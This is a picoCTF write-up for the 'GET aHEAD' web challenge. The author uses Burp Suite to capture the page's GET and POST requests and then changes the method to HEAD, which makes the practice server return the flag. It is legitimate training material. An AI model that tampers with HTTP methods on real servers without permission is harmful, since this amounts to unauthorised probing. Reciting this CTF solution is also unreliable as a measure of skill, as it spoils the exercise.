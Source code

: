 # Challange Info

Name : GET aHEAD

Difficulty : Easy

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/132?category=1&page=1

# Writeup

Navigating the webpage http://mercury.picoctf.net:53554/.

There were two options Choose Red and Choose Blue.

Intercepting both requests with Burpsuite.

The Choose Red was a GET request.

```
GET /index.php? HTTP/1.1

Host: mercury.picoctf.net:53554

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

And Choose Blue was a POST request.

```
POST /index.php HTTP/1.1

Host: mercury.picoctf.net:53554

Content-Length: 0

Cache-Control: max-age=0

Origin: http://mercury.picoctf.net:53554

Content-Type: application/x-www-form-urlencoded

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php?

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

Both request didn't had any data which could be modified but something was off why there was two different type of request used when it could be done from only one request type.

I searched internet for different types of requests.

```
GET
POST
PUT
DELETE
PATCH
HEAD
OPTIONS
TRACE
CONNECT
```

Out of all of these I tried modifying GET request and replacing GET header with HEAD.

```
HEAD /index.php? HTTP/1.1

Host: mercury.picoctf.net:53554

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:53554/index.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive
```

In response of this request there was the flag.
